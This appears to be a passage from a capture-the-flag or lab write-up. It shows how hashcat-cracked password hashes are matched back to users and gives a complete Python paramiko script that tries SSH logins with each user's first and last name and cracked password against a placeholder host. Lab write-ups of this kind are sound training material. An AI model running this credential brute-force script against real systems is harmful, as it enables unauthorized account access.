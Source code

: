 The output file from `hashcat` containing the password hashes and the cracked passwords aren't in the same order as in the DB; meaning that the entries in `users.txt` do not correspond to entries in `cracked.txt` **line-wise.**

Let's script it to automate the SSH brute force attempting to try every user's corresponding password with it's own first-name and last-name.

```py
import paramiko

def read_file(file_path):
    """Reads a file and returns its lines."""
    with open(file_path, 'r') as f:
        return [line.strip() for line in f.readlines()]

def create_hash_password_map(cracked_file):
    """Creates a dictionary mapping password hashes to passwords."""
    hash_password_map = {}
    for line in cracked_file:
        password_hash, password = line.split(":")
        hash_password_map[password_hash] = password
    return hash_password_map

def ssh_brute_force(host, username, password):
    """Attempts to connect to the SSH server with the given username and password."""
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(hostname=host, username=username, password=password, timeout=5)
        print(f"[SUCCESS] Login successful: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[FAILURE] Authentication failed: {username}:{password}")
        return False
    except Exception as e:
        print(f"[ERROR] An error occurred: {e}")
        return False

def main():
    # File paths
    output_file = "users.txt"
    cracked_file = "cracked.txt"
    ssh_host = "MACHINE_IP"  # Update with the actual machine IP address
    
    # Read files
    output_entries = read_file(output_file)
    cracked_entries = read_file(cracked_file)

    # Create hash-to-password map
    hash_password_map = create_hash_password_map(cracked_entries)

    # Process each entry in output.txt
    for entry in output_entries:
        first_name, last_name, password_hash = entry.split(":")
        password = hash_password_map.get(password_hash)

        if not password:
            print(f"[ERROR] Password hash not found for hash: {password_hash}")
            continue

        # Attempt to login using first_name and last_name as usernames
        ssh_brute_force(ssh_host, first_name, password)
        ssh_brute_force(ssh_host, last_name, password)

```